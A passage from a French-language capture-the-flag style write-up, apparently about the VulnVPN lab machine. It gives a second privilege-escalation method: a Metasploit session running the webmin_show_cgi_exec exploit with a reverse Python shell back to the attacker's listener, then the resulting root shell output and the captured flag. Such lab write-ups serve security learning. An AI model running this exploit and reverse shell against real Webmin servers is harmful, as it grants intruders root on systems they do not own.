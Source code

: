 Escalade de privilèges #2
-------------------------

Si la précédente méthode ne fonctionne pas (exemple : problème avec le FS sur la VM), on peut s'attaquer au vieux *Webmin* via un module *Metasploit* :  

```plain
msf exploit(webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  bob              yes       Webmin Password
   Proxies                    no        Use a proxy chain
   RHOST     10.99.99.1       yes       The target address
   RPORT     10000            yes       The target port
   SSL       true             yes       Use SSL
   USERNAME  bob              yes       Webmin Username
   VHOST                      no        HTTP server virtual host

Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.99.99.2       yes       The listen address
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

Exploit target:

   Id  Name
   --  ----
   0   Webim 1.580

msf exploit(webmin_show_cgi_exec) > exploit

[*] Started reverse handler on 10.99.99.2:4444 
[*] 10.99.99.1:10000 - Attempting to login...
[+] 10.99.99.1:10000 - Authentication successfully
[+] 10.99.99.1:10000 - Authentication successfully
[*] 10.99.99.1:10000 - Attempting to execute the payload...
[+] 10.99.99.1:10000 - Payload executed successfully
[*] Command shell session 1 opened (10.99.99.2:4444 -> 10.99.99.1:37505) at 2014-09-27 09:29:38 +0200

bash: no job control in this shell
root@vulnvpn:/usr/share/webmin/file/# id     
id
uid=0(root) gid=0(root) groups=0(root)
root@vulnvpn:/usr/share/webmin/file/# cd /root
cd /root
root@vulnvpn:~# ls
ls
trophy.txt
root@vulnvpn:~# cat trophy.txt    
cat trophy.txt
6dbabffbbabf0868f3bdcf3b192a3511
```

C'est plus bourrin mais plus besoin d'attendre 6h25 :)

*Published September 28 2014 at 14:51*
